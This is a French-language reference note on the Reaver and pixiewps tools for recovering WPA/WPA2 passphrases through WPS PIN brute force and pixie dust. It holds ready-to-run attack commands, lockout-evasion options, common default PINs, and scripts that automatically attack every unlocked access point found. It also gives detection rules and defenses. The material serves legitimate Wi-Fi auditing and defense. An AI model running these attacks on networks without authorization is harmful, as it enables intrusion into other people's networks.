

# Reaver — Wireless & Réseau

> [!info] **En 1 phrase**
> Outil d'attaque **WPS (Wi-Fi Protected Setup)** par brute force du PIN de 8 chiffres, couplé à **pixiewps** pour l'attaque offline « pixie dust » — il délivre la clé WPA/WPA2 **en clair** sans la cracker.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | reaver (reaver-wps-fork-t6x) |
| Description | Brute force du PIN WPS (en ligne) + intégration pixiewps (attaque offline « pixie dust ») pour retrouver la passphrase WPA/WPA2 d'un AP |
| Catégorie | Wireless & Réseau |
| Sous-catégorie | Attaque & Cracking WiFi (WPS / Pixie dust) |
| Fonction principale | Tester les PIN WPS 8 chiffres contre l'AP et en extraire la passphrase en clair |
| Type d'outil | CLI (attaque active en ligne) |
| Licence | GPL-2.0 (pixiewps : GPL-3.0) |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | C (reaver, wash, pixiewps) |
| Développeur / organisation | Craig Heffner (original) ; fork t6x (bugs fixes, pixie dust) ; pixiewps par wiire |
| Projet officiel | reaver-wps-fork-t6x (communauté) |
| Dépôt officiel | https://github.com/t6x/reaver-wps-fork-t6x |
| Documentation officielle | https://github.com/t6x/reaver-wps-fork-t6x |
| Date de création | 2011 (reaver) ; fork t6x ~2017 ; pixiewps 2016 |
| État du projet | maintenu (fork communautaire, v1.6.x) |
| Dernière version connue | v1.6.6 (paquets Alpine/Repology) |
| Systèmes compatibles | Linux (mode moniteur requis), macOS (limité), certains routeurs OpenWRT |

> [!note] Pour vérifier / compléter
> Les paquets Debian/Kali fournissent `reaver`, `wash` et `pixiewps` : vérifier les versions avec `reaver --help`, `wash --help` et `pixiewps --help`. Le fork t6x inclut le support du pixie dust (`-K 1`) et des correctifs non présents dans l'original.

---

## Concept

Le WPS réduit la sécurité du WiFi à un **PIN de 8 chiffres**, validé en deux moitiés (11000 combinaisons efficaces seulement). `reaver` teste ces combinaisons **en ligne** contre le point d'accès, en gérant les timeouts et les réessais, puis livre la **passphrase WPA en clair**. `pixiewps` exploite un défaut de génération du nonce (`PKE`/`PKR`) sur certaines puces (Realtek, Ralink…) pour retrouver le PIN **hors-ligne en quelques secondes**. Les deux sont complémentaires : pixiewps d'abord (rapide), reaver en repli (lent mais universel sur WPS actif).

Dans un pentest Wi-Fi, Reaver se place après la détection (`wash`) : si le WPS est actif et non verrouillé, l'attaque par PIN offre un chemin direct vers la clé, sans capture de handshake ni cracking de la passphrase. Le point clé : **on n'attaque pas la robustesse de WPA2, mais la faiblesse du protocole WPS**, qui existe en plus de la passphrase sur la plupart des box/routeurs grand public.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| WPS | Wi-Fi Protected Setup : configuration simplifiée (PIN ou push-button) ; PIN de 8 chiffres = 10^8 combinaisons |
| PIN en deux moitiés | Les 4 premiers + 3 derniers chiffres sont validés séparément + 1 checksum : seulement ~11000 essais réels |
| Échange EAP (M1-M8) | Protocole d'échange du WPS ; reaver analyse les messages pour vérifier la validité du PIN |
| Rate limiting / lockout | L'AP se verrouille après ~5 échecs (état LOCKED dans wash) — la contrainte majeure du brute force en ligne |
| Pixie dust | Défaut de génération des nonces PKE/PKR : le PIN est retrouvable offline à partir d'une seule session EAP |
| PKE / PKR | Nonces publics échangés pendant le WPS ; leur mauvaise génération (entropie faible) permet le pixie dust |
| `wash` | Outil compagnon : scanne les AP et indique si le WPS est actif, la version, et l'état LOCKED |
| PBC (Push Button Configuration) | Mode WPS par bouton physique : l'attaque PIN devient inopérante |
| Session state (.sav) | `-s <nom>` sauvegarde la progression du brute force pour reprise sans repartir de zéro |

---

## Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y reaver
# Kali : reaver + pixiewps + wash disponibles
reaver --help && wash --help && pixiewps --help
```

### Arch Linux

```bash
sudo pacman -S reaver
# ou le fork t6x : reaver-wps-fork-t6x-git (AUR)
```

### Fedora / RHEL

```bash
sudo dnf install reaver
```

### macOS

```bash
# Build depuis les sources (fonctionnalité limitée : mode moniteur macOS restreint)
```

### Windows

```powershell
# Non supporté nativement : mode moniteur + injection indisponibles sous Windows
# Utiliser Kali (VM ou native) avec une carte USB compatible
```

### Docker

```bash
# Déconseillé : accès direct à la carte radio requis (mode moniteur)
```

### Compilation depuis les sources

```bash
git clone https://github.com/t6x/reaver-wps-fork-t6x.git && cd reaver-wps-fork-t6x
./configure && make && sudo make install
# pixiewps séparé :
git clone https://github.com/wiire/pixiewps.git && cd pixiewps
make && sudo make install
```

> [!warning] Prérequis & problèmes potentiels
> - Carte Wi-Fi en **mode moniteur avec injection** (testée via `aireplay-ng -9`).
> - `libpcap` et le compilateur C requis pour le build.
> - Le fork t6x est nécessaire pour `-K 1` (pixie dust) : l'original ne l'inclut pas.
> - La plupart des box récentes ont WPS **verrouillé ou désactivé** : vérifier l'état avec `wash` avant de lancer une attaque longue.

---

## Configuration

reaver se configure **uniquement en ligne de commande**. Les paramètres clés contrôlent le canal, la verbosité, la gestion du lock, les délais et la sauvegarde de session.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-i <iface>` | Interface moniteur | `wlan0mon` | Où injecter | `-i wlan0mon` |
| `-b <bssid>` | BSSID de la cible | MAC | Cible de l'attaque | `-b AA:BB:CC:DD:EE:FF` |
| `-c <canal>` | Canal de la cible | 1-165 | Alignement radio | `-c 6` |
| `-vv` | Verbosité | `-v`, `-vv`, `-vvv` | Détail de l'échange EAP | `-vv` |
| `-K 1` | Mode pixie dust (pixiewps) | 1 | Attaque offline du PIN | `-K 1` |
| `-L` | Ignore le lock | on/off | Continue après LOCKED | `-L` |
| `-N` | Désactive la protection anti-lock | on/off | Tente malgré le verrou | `-N` |
| `-T <sec>` | Timeout par PIN | secondes | Ralentit mais contourne le lock | `-T 3` |
| `-d <sec>` | Délai après chaque tentative | secondes | Discret / anti-rate-limit | `-d 30` |
| `-p <pin>` | PIN précis à tester | 8 chiffres | PIN admin par défaut | `-p 12345670` |
| `-s <nom>` | Fichier de session | nom | Sauvegarde/reprise | `-s resume` |

---

## Architecture interne

reaver est un **client WPS complet** qui parle le protocole d'échange EAP au-dessus de trames 802.11 injectées :

1. **Association** — reaver s'associe à l'AP cible (mode moniteur + injection), canal donné par `-c`.
2. **Échange EAP-WPS** — il envoie les messages **M1** (Start) à **M8** du protocole WPS (WSC). L'AP répond en validant chaque moitié du PIN : une réponse **NACK** après M2/M4 signifie PIN faux, une suite jusqu'à M7/M8 signifie PIN correct.
3. **Brute force** — pour chaque PIN candidat (génération récursive), reaver rejoue l'échange et analyse la réponse. Le lock est géré par les options `-L`/`-N`/`-T`/`-d`.
4. **Extraction** — quand le PIN est trouvé, l'AP envoie les **credentials** (SSID, clé PSK, cipher) dans le message final : reaver les affiche.
5. **Pixie dust** (`-K 1`) — reaver capture une session EAP (M1-M2) avec les nonces **PKE/PKR**, puis invoque **pixiewps** qui recalcule le PIN hors-ligne à partir de l'entropie faible des nonces.
6. **Session state** (`-s`) — reaver écrit un fichier `.sav` avec le PIN courant et les paramètres : reprise instantanée après interruption.

`wash` fonctionne en écoute passive : il collecte les beacons et les réponses aux requêtes WPS pour rapporter l'état (WPS actif, version, LOCKED).

---

## Commandes

### Commandes principales

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `wash -i <iface>` | Scanner les AP avec WPS | Liste : BSSID, canal, version, LOCKED |
| `reaver -i <if> -b <bssid> -c <ch> -vv` | Brute force PIN en ligne | PIN trouvé + passphrase WPA affichée |
| `reaver … -K 1` | Attaque pixie dust (offline) | PIN en quelques secondes si vulnérable |
| `reaver … -p <pin>` | Tester un PIN connu | Validation rapide d'un PIN admin |
| `reaver … -s <nom>` | Sauvegarder/reprendre une session | Reprise au PIN courant |
| `reaver --help` | Aide | Liste des options |

### Commandes avancées

```bash
# Pixie dust d'abord, puis brute force en ligne si échec
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 11 -K 1 -vv
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 11 -vv

# WPS verrouillé : options anti-lock + délais + session
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -L -N -T 3 -d 60 -vv -s lock_pinsession
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-b <bssid>` | BSSID cible | `-b AA:BB:CC:DD:EE:FF` | Basic |
| `-i <iface>` | Interface | `-i wlan0mon` | Basic |
| `-c <canal>` | Canal | `-c 6` | Basic |
| `-vv` | Verbosité | `-vv` | Basic |
| `-K 1` | Pixie dust | `-K 1` | Intermediate |
| `-p <pin>` | PIN précis | `-p 12345670` | Intermediate |
| `-s <nom>` | Session | `-s resume` | Intermediate |
| `-L` | Ignorer le lock | `-L` | Advanced |
| `-N` | Désactiver anti-lock | `-N` | Advanced |
| `-T <sec>` | Timeout PIN | `-T 3` | Advanced |
| `-d <sec>` | Délai post-tentative | `-d 30` | Advanced |
| `-x <sec>` | Timeout de réponse | `-x 10` | Expert |
| `-l <sec>` | Retry en cas d'échec | `-l 5` | Expert |
| `-r <sec>` | Délai de reconnexion | `-r 5` | Expert |

> [!tip] Options les plus utiles au quotidien
> - `-K 1` : toujours essayer le **pixie dust** avant le brute force long.
> - `-vv` : indispensable pour suivre le PIN courant et l'état du lock.
> - `-s <nom>` : sauvegarder la session dès le départ (des heures de travail en jeu).
> - `-L -N -T 3 -d 60` : la combinaison type contre un WPS qui verrouille.

---

## Exemples pratiques

### Beginner

```bash
# Objectif : détecter les AP avec WPS actif
sudo airmon-ng start wlan0
sudo wash -i wlan0mon
# Repérer une cible non LOCKED, puis lancer le brute force
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv
```

Résultat attendu : affichage de l'état WPS (version, lock) puis progression du PIN. Erreur fréquente : cible en WPS **PBC** (push-button) qui refuse les PIN.

### Intermediate

```bash
# Objectif : pixie dust sur une cible (rapide et silencieux)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 11 -K 1 -vv
# Si « [-] Pixiewps: Attack failed », l'AP n'est pas vulnérable au pixie
```

### Advanced

```bash
# Objectif : attaquer un WPS verrouillé (lentement, discrètement)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -L -N -T 3 -d 60 -vv -s lock_session
# Surveiller wash en parallèle pour détecter une réouverture du WPS
sudo wash -i wlan0mon
```

### Expert

```bash
# Objectif : PIN par défaut, puis reprise d'une session brute force
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p 12345670 -vv
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -s session_target -vv
# Si une interruption, relancer avec le même -s : reaver reprend au PIN courant
```

---

## Workflow complet (scénario pas à pas)

**Scénario : box "BBox-5678" (canal 11) avec WPS actif.**

1. **Repérer la cible et son état WPS** :
   ```bash
   sudo airmon-ng start wlan0
   sudo wash -i wlan0mon | grep -i "BBox-5678"
   ```
2. **Tenter le pixie dust d'abord** (quelques secondes, gratuit) :
   ```bash
   sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 11 -K 1 -vv
   ```
3. **Si échec, lancer le brute force en ligne** (compte en heures/jours, patience) :
   ```bash
   sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 11 -vv
   ```
4. **Succès** : `WPS PIN: '12345670'`, `WPA PSK: 'MaPassphraseWPA'` → la clé est **en clair**.
5. **(Optionnel) Documenter** la clé et le PIN dans le rapport (usage autorisé uniquement).

---

## Scénarios avancés

### Scénario 1 : Attaque sur WPS verrouillé (rate-limit contourné)

Quand wash montre l'état LOCKED, combiner les options anti-lock pour continuer lentement.

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -L -N -T 3 -d 60 -vv -s lock_pinsession
# -s sauvegarde la progression de session, -L/-N ignorent le lock
# Surveiller wash en parallèle pour voir si le WPS redevient disponible
```

### Scénario 2 : PIN par défaut connu avant le brute force complet

Tester les PIN administrateur fréquents avant de lancer le bruteforce exhaustif.

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p 12345670 -vv
# PIN par défaut fréquents sur box : 12345670, 00000000, 12345678
# puis reprendre le bruteforce complet si échec
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -s resume_session -vv
```

### Scénario 3 : Reprise d'une session de brute force interrompue

Une session peut durer des heures : sauvegarder la progression et la reprendre sans repartir de zéro.

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv -s session_target
# session_target.sav conserve l'état ; en cas d'interruption, re-lancer avec -s
# restaure la session et reprend le bruteforce au PIN courant
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv -s session_target
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | `wash` : détection des AP avec WPS actif, version, état LOCKED |
| Exploitation | Brute force PIN WPS en ligne ou attaque pixie dust offline |
| Credential access | Récupération de la **passphrase WPA2 en clair** (sans cracking) |
| Red team | Accès réseau via la clé obtenue (dans le périmètre autorisé) |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | Brute Force : Password Guessing | T1110.001 | Teste les PIN WPS un par un | WIDS : rafales de tentatives EAP-WPS | Désactiver WPS, PBC-only |
| Credential Access | Brute Force : Password Cracking | T1110.002 | Pixie dust : dérivation offline du PIN | Mise à jour firmware | Firmware corrigé, WPS off |
| Credential Access | Exploitation pour accès aux identifiants | T1187 (adjacent) | Récolte de la clé WPA via protocole faible | Détection WPS | WPS off, WPA3/SAE |
| Initial Access | Valid Accounts / clé Wi-Fi | T1078 | Connexion au réseau avec la clé volée | Monitoring des accès | Passphrase robustes, 802.1X |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Reaver correspond à **T1110.001** (guessing en ligne) et au **pixie dust** qui est un contournement hors-ligne — la mitigation centrale est la **désactivation du WPS**.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Rafales de requêtes EAP/M8 anormales sur le WPS | Signature du brute force reaver |
| Nombre élevé d'associations/désassociations répétées | Tentative de PIN en ligne |
| WPS qui bascule LOCKED puis redevient actif | Contournement anti-lock (`-L -N`) |
| Sessions EAP WPS répétées vers un seul AP | Suspect pour WIDS |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma : tentatives répétées d'échange WPS (brute force PIN)
title: WPS PIN Bruteforce Detection (Reaver)
id: b2c3d4e5-0005-4c00-c000-000000000005
status: experimental
description: Sessions EAP-WPS répétées depuis une même source
logsource:
  category: wireless
  product: wids
detection:
  selection:
    frame.type: 2
    eapol.protocol: wps
  timeframe: 60s
  condition: selection | count() by src > 50
level: medium
```

```bash
# Exemple Suricata/Snort : rafale d'échanges EAP vers un AP
alert wlan any any -> any any (msg:"WPS EAP exchange flood - possible reaver"; \
  eapol.type:1; threshold:type both, track by_dst, count 100, seconds 60; \
  sid:1000005; rev:1;)
```

---

## Automatisation

```bash
# Exemple : script de test WPS d'un lot de cibles (audit autorisé)
#!/bin/bash
# /usr/local/bin/wps-audit.sh <bssid> <canal>
BSSID=$1; CH=$2
echo "[*] wash : état WPS"
sudo wash -i wlan0mon | grep -i "$BSSID"
echo "[*] pixie dust"
sudo reaver -i wlan0mon -b "$BSSID" -c "$CH" -K 1 -vv
echo "[*] brute force (session sauvegardée)"
sudo reaver -i wlan0mon -b "$BSSID" -c "$CH" -vv -s "audit_$BSSID"
```

```python
#!/usr/bin/env python3
# Objectif : lancer wash, parser les cibles WPS non verrouillées, tenter pixie dust
import subprocess, re

def get_wps_targets():
    out = subprocess.check_output(["sudo", "wash", "-i", "wlan0mon"], text=True, timeout=60)
    for line in out.splitlines()[3:]:
        f = line.split()
        if len(f) >= 7 and f[1] != "LOCKED":
            yield f[0], f[2]  # bssid, channel

for bssid, channel in get_wps_targets():
    print(f"[*] pixie sur {bssid} (ch {channel})")
    subprocess.run(["sudo", "reaver", "-i", "wlan0mon", "-b", bssid, "-c", channel, "-K", "1", "-vv"])
```

---

## Output et parsing

reaver affiche en sortie console le détail de chaque tentative (`-vv`) et, en cas de succès :

```text
[+] WPS PIN: '12345670'
[+] WPA PSK: 'MaPassphraseWPA'
[+] AP SSID: 'BBox-5678'
```

La session `-s <nom>.sav` est un fichier texte listant les paramètres et le PIN courant :

```bash
# Lire l'état d'une session
cat /etc/reaver/session_target.sav

# Extraire le PIN courant pour reprise manuelle
grep -i "current" /etc/reaver/session_target.sav
```

```python
# Exemple de parsing : repérer un succès dans les logs reaver
import re
with open("reaver.log") as fh:
    for line in fh:
        m = re.search(r"WPA PSK: '(.+)'", line)
        if m:
            print(f"[+] PSK : {m.group(1)}")
```

---

## Intégrations

```text
wash (détection WPS) → reaver / pixiewps → clé WPA2 → connexion réseau
reaver (pixie dust) ← captures EAP ← aircrack-ng / Scapy (analyse)
reaver → rapport d'audit (PIN + PSK) → SIEM / documentation
```

- [[Tools| Outils]]
- [[Outil - aircrack-ng]] — capture/analyse WiFi complémentaire (mode moniteur, handshake)
- [[Outil - Wifite]] — automatise reaver/bully pour les WPS
- [[Outil - hcxdumptool]] — alternative de collecte (handshake/PMKID) quand le WPS échoue
- [[Outil - Scapy]] — analyse fine des échanges EAP-WPS

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| bully | Plus rapide en rate-limit, léger | Moins répandu | WPS verrouillé |
| wifite2 | Automatise reaver/bully/pixiewps | Boîte noire | Audit one-shot |
| pixiewps seul | Offline, quasi instantané | Nécessite la session EAP (avec reaver/bully) | Récupération du PIN |
| WPS PIN générateurs (lists) | Teste les PIN par défaut | Portée limitée | Box grand public |

> **Quand utiliser reaver plutôt que bully ?** Reaver est le standard, mieux documenté et intégré à wifite ; bully peut être plus efficace sur des AP qui verrouillent vite.

---

## Performance

- **Pixie dust** : quelques **secondes** à quelques minutes (offline, aucun taux de requête réseau).
- **Brute force en ligne** : dépend du rate limiting. Sans lock : ~1 PIN toutes les 1-2 s → 11000 combinaisons ≈ **3-8 heures** au pire. Avec lock (verrouillage après 5 échecs + délais) : peut prendre **des jours**.
- Le lock est le facteur dominant : `-T`/`-d` imposent des délais qui allongent l'attaque proportionnellement.
- Coût CPU négligeable (C optimisé) ; la charge est réseau (échanges EAP répétés).
- Pas de chiffres officiels : les durées ci-dessus sont les ordres de grandeur classiques du WPS.

---

## Troubleshooting

### Common problems

#### Problème : « WPS transaction failed » immédiatement

- **Cause** : cible en mode PBC (push-button), WPS PIN désactivé, ou canal incorrect.
- **Solution** : vérifier avec `wash` (état), aligner `-c`, tester `-p` avec un PIN connu.
- **Vérification** : `wash -i wlan0mon` montre le WPS actif et non PBC.

#### Problème : l'AP se verrouille après quelques tentatives (LOCKED)

- **Cause** : rate limiting de l'AP.
- **Solution** : `-L -N -T 3 -d 60` + `-s` (session), et attendre les réouvertures.
- **Vérification** : `wash` montre LOCKED ⇄ actif selon les fenêtres.

#### Problème : pixiewps échoue (« Attack failed »)

- **Cause** : nonces bien générés (AP corrigé) — pas de défaut pixie.
- **Solution** : passer au brute force en ligne `reaver` (long).
- **Vérification** : `-K 1 -vv` affiche le détail de la session EAP.

#### Problème : aucune réponse de l'AP

- **Cause** : mauvaise interface (pas en moniteur), canal incohérent, AP trop loin.
- **Solution** : `airmon-ng check kill`, vérifier `-i`/`-c`, rapprocher la carte.
- **Vérification** : `wash -i wlan0mon` voit la cible.

#### Problème : pas de reprise de session

- **Cause** : le fichier `.sav` a été écrasé ou le BSSID change.
- **Solution** : conserver les `.sav`, relancer avec exactement le même `-s` et BSSID.
- **Vérification** : le contenu de `session.sav` liste le PIN courant.

---

## Sécurité de l'outil

- Root requis pour l'accès raw à la carte (injection).
- Attaque **active** et potentiellement **gênante** pour les clients (associations répétées) : uniquement sur périmètre autorisé.
- Les **sessions `.sav`** contiennent le BSSID, le PIN courant et la progression : protéger ces fichiers (ils peuvent valider un droit d'accès).
- Le pixie dust ne collecte pas de données de trafic : il exploite une faiblesse protocolaire, pas du contenu utilisateur.
- Détectable par WIDS (rafales EAP) : activité identifiable en environnement surveillé.
- La clé WPA récupérée ne doit servir que dans le cadre de l'autorisation d'audit.

---

## Limitations

- Ne fonctionne que si le **WPS PIN est actif** : désactivé ou PBC → attaque impossible.
- Le **lock** peut rendre le brute force en ligne impraticable (des jours).
- Pixie dust limité aux **puces vulnérables** (Realtek, Ralink, certains BCM) et aux firmwares non corrigés.
- Le scan WPS actif génère du bruit radio : visible par les AP et WIDS.
- Ne donne pas la clé d'un WPA3/SAE : le WPS ne s'applique qu'aux réseaux compatibles WPS/WPA2.
- macOS : fonctionnalité limitée ; Windows : non supporté.

---

## Cheatsheet

```bash
# Détection des AP avec WPS
sudo wash -i wlan0mon

# Pixie dust (offline, rapide)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K 1 -vv

# Brute force en ligne
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv

# Brute force avec session sauvegardée
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv -s ma_session

# Reprise d'une session
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv -s ma_session

# WPS verrouillé (anti-lock)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -L -N -T 3 -d 60 -vv -s ma_session

# Test d'un PIN connu (admin par défaut)
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -p 12345670 -vv
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Récupérer la passphrase WPA/WPA2 via le brute force du PIN WPS (ou pixie dust) |
| **Quand l'utiliser ?** | Quand le WPS est actif et non verrouillé sur une box/routeur autorisé |
| **Commande principale** | `sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K 1 -vv` |
| **Alternative principale** | bully (WPS verrouillé) / wifite (automatisation) |
| **Concepts importants** | WPS, PIN 8 chiffres en deux moitiés, lock, pixie dust (PKE/PKR), wash |
| **Liens associés** | [[Techniques/Attaques WiFi - WPS\| WPS]] · [[Outil - Wifite]] · [[Outil - aircrack-ng]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Rafales de requêtes EAP/M8 anormales sur le WPS (signature reaver) | WIDS pour détecter les tentatives WPS en rafale |
| WPS actif sur les AP | **Désactiver WPS** : seule défense réellement efficace (PIN en clair sinon) |
| Mode WPS « push-button » uniquement | Bouton physique : l'attaque PIN en ligne devient impossible |
| Verrouillage après N échecs | Rate limiting / lockout ralentit fortement reaver |
| Firmware ancien (nonce prévisible) | Mettre à jour le firmware : corrige les défauts pixie dust |
| AP qui répond aux M1/M2 puis échoue au M3/M4 (candidat au pixie dust) | Activer WPS en « push-button » ou le désactiver complètement |

---

## Tips & Pièges

> [!tip] Toujours essayer **pixiewps (`-K 1`) d'abord** : offline, quelques secondes, sans toucher au rate-limit. Reaver seul est un investissement en temps : plusieurs heures à plusieurs jours selon le PIN de départ. Surveille `wash` en parallèle pour vérifier si la cible change d'état (LOCKED ⇄ active) pendant la tentative.

> [!warning] Un WPS **locked** (état « LOCKED » dans wash) bloque l'attaque après ~5 échecs. Les options `-L -N` peuvent repartir du PIN courant mais déclenchent des lockouts et font durer l'attaque… Surveiller `wash` en parallèle. Le `-p 12345670` (PIN par défaut fréquent) vaut le coup avant le brute force complet.

---

## References

### Official

- GitHub officiel (fork t6x) : https://github.com/t6x/reaver-wps-fork-t6x
- GitHub officiel pixiewps : https://github.com/wiire/pixiewps
- Site historique reaver (Craig Heffner) : https://github.com/t6x/reaver-wps-fork-t6x

### Security references

- MITRE ATT&CK T1110 — Brute Force : https://attack.mitre.org/techniques/T1110/
- MITRE ATT&CK T1078 — Valid Accounts : https://attack.mitre.org/techniques/T1078/
- Wi-Fi Protected Setup (Wikipedia) : https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- Pixie Dust (write-up) : https://github.com/wiire/pixiewps

### Community

- Forums Kali — WPS/reaver : https://forums.kali.org/
- HackTricks — WPS attacks : https://book.hacktricks.xyz/wifi-cracking
- Write-ups pixie dust et box vulnérables : https://github.com/wiire/pixiewps/blob/master/README.md

---

> [!info] **Sources**
> - [GitHub officiel reaver-wps-fork-t6x](https://github.com/t6x/reaver-wps-fork-t6x)
> - [GitHub officiel pixiewps](https://github.com/wiire/pixiewps)
> - [Repology — reaver-wps-fork-t6x (v1.6.6)](https://repology.org/project/reaver-wps-fork-t6x/packages)

**Liens :** [[Tools| Outils]] · [[Techniques/Attaques WiFi - WPS| WPS]] · [[Techniques/Attaques WiFi (WPA2 et PMKID)| Hub WiFi]] · [[Techniques/Attaques WiFi - Préparation & Basiques| Préparation]] · [[Outil - Wifite]] · [[Outil - aircrack-ng]]
